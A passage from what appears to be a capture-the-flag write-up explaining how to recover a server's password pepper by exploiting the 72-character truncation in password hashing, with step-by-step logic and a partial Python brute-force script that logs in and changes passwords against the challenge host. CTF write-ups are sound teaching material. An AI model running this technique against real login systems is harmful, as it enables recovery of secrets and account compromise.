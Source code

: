To confirm, I used Burp Suite to brute-force the login with my account, testing a password of 71 As followed by `[a-zA-Z0-9]`. I successfully logged in with 71 As + `e`, revealing that the first character is `e`.

{{< figure src="/oposec_2025/spicy11.png" class="post-image" >}}

The steps to recover the PEPPER are:
- Create an account using a password of 71 characters.
- Attempt to log in with that password plus an extra character:
  - If it succeeds, that character is part of the PEPPER.
  - If it fails, try a different character until it works.
- Once logged in, change the current password from 71 characters to 70 characters.
- Repeat the login attempts using the previous password + known PEPPER characters + a new character.
- Continue this process until all characters of the PEPPER are discovered.

I wrote a Python script to automate these steps, making the process of discovering the PEPPER much simpler and faster.

```python
import requests
from string import ascii_letters, digits

URL = "https://spicy.0d.al"
USERNAME = "nnn"

session = requests.Session()
CHARSET = ascii_letters + digits

def login(password: str) -> bool:
    r = session.post(f"{URL}/login/", data={
        "username": USERNAME,
        "password": password,
    }, allow_redirects=False)
    return r.status_code in (302, 303)

def change_password(old_password: str, new_password: str) -> bool:
    r = session.post(f"{URL}/password_change/", data={
        "old_password": old_password,
        "new_password1": new_password,
        "new_password2": new_password,
    }, allow_redirects=False)
    return r.status_code in (302, 303)

def recover_pepper():
    pepper = ""
    num_b_prefix = 71

    current_server_password = "B" * 71

    if not login(current_server_password):
        print("[-] Error - login")
        return ""

    while num_b_prefix >= 0:
        found_char = None

        prefix = "B" * num_b_prefix

        for c in CHARSET:
            test_password = prefix + pepper + c

            if len(test_password) != 72:
                continue

            print(f"[>] Trying login: {test_password}")
```